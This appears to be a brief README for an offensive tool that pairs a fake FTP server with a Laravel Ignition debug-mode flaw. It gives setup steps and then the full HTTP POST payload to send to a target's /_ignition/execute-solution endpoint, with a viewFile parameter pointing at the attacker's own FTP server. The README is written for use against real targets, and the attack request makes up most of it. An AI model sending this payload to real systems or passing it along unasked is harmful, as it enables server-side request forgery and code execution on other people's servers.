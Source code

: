 # laravel-debug-ftp-ssrf
A fake ftp server build for laravel~

1. Change the keyword `vps` to the address of your vps.
2. Then start the script.
3. Send the following request to the target server.
```
POST /_ignition/execute-solution HTTP/1.1
Host: damedane
Content-Type: application/json
Content-Length: ???

{ "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters":{
    "variableName":"233",
    "viewFile":"ftp://fan:root@vps-ip:vps-port/test"
  }
}
```